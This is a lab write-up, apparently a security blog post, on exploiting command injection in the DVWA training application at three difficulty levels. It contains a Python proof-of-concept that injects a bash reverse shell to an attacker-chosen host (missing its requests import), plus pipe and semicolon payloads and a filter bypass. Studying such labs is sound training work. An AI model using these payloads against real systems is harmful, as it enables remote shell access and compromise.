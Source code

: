 ```yaml
---
title: DVWA Command Injection
# author: Gauranga
date: 2024-03-06 04:45:00 +00:00
categories: [Writing]
tags: [cybersecurity, DVWA, command injection, web security, vulnerability, exploitation, proof of concept]
pin: true
math: true
mermaid: true
image: https://cdn.acunetix.com/wp-content/uploads/2019/06/11110845/command-injection-910x478.png
#   path: /commons/devices-mockup.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


## Low Level

- **Functionality Check**: Application accepts input in `ip` parameter, directly passed to `shell_exec()`.
- **Injection**: Concatenated `;ls -la` as payload.
- **Vulnerability**: Lack of input validation allows command execution.

![](/cj/Untitled.png)

```python
import sys

url = "<http://127.0.0.1:42001/vulnerabilities/exec/>"

headers = {
    "Cookie": "PHPSESSID=<id>; security=<>"
}

def main():
    try:
        ip = f"bash -c 'bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1'"
        data = {
            "ip": ";" + ip,
            "Submit": "Submit",
        }
        response = requests.post(url, headers=headers, data=data)

        if "www-data" in response.text:
            print("success")
        else:
            print("failed")
    except Exception as e:
        print("An error occurred:", e)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 poc.py <lhort> <lport>")
        sys.exit(1)
    else:
        main()
```

- The script serves as a Proof of Concept (PoC) to exploit a command injection vulnerability in a web application.
- It demonstrates how an attacker can execute arbitrary commands on the target system through the vulnerability.
- By injecting specially crafted commands, the attacker gains unauthorized access to the system.
- This unauthorized access can lead to further exploitation, such as data theft, system compromise, or launching other attacks.
- It's crucial to emphasize that exploiting vulnerabilities without proper authorization is both illegal and unethical.

---

## Medium Level

- **Functionality Check**: Application continues to execute OS commands.
- **Input Validation**: Concatenated `|` as payload.
- **Bypass**: Used `|ls -la` payload for successful execution.

![](/cj/Untitled 1.png)

---

## High Level

- **Functionality Check**: Application still executes OS commands.
- **Tightened Validation**: Additional characters like `&`, ``, `$`, `(` replaced with space.
- **Bypass**: Identified space after `|` character, used `127.0.0.1|ls -ls` payload for success.

![](/cj/Untitled 2.png)

---